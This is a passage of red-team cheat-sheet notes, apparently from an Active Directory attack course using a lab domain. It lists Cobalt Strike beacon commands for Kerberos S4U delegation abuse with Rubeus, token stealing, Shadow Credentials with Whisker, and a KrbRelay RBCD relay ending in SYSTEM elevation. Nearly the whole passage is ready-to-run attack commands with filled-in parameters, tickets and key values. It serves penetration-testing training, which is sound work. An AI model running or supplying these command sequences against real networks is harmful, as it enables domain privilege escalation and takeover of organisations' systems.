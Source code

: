```bash
# Perform s4u
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=
beacon> steal_token 4092
beacon> ls \\dc-2.dev.cyberbotic.io\c$
```

### Shadow Credentials

```bash
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe add /target:dc-2$
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:dc-2$ /certificate:MIIJuA[...snip...]ICB9A= /password:"y52EhYqlfgnYPuRb" /nowrap
# Remove
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe remove /target:dc-2$ /deviceid:58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403
```

### Kerberos Relay Attacks

#### RBCD


* -spn is the target service to relay to.
* -clsid represents RPC_C_IMP_LEVEL_IMPERSONATE.
* -rbcd is the SID of the fake computer account.
* -port is the port returned by CheckPort.


```bash
beacon> execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make
beacon> powershell Get-DomainComputer -Identity EvilComputer -Properties objectsid
beacon> execute-assembly C:\Tools\KrbRelay\CheckPort\bin\Release\CheckPort.exe
beacon> execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe -spn ldap/dc-2.dev.cyberbotic.io -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-569305411-121244042-2357301523-9101 -port 10
beacon> powershell Get-DomainComputer -Identity wkstn-2 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:1DE19DC9065CFB29D6F3E034465C56D1AEC3693DB248F04335A98E129281177A /nowrap
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:EvilComputer$ /impersonateuser:Administrator /msdsspn:host/wkstn-2 /ticket:doIF8j[...snip...]MuaW8= /ptt
beacon> elevate svc-exe-krb tcp-local
```

#### Shadow Credentials

> If you perform these attacks back-to-back and see an error like (0x800706D3): The authentication service is unknown. then reboot the machine or wait for the next clock sync.
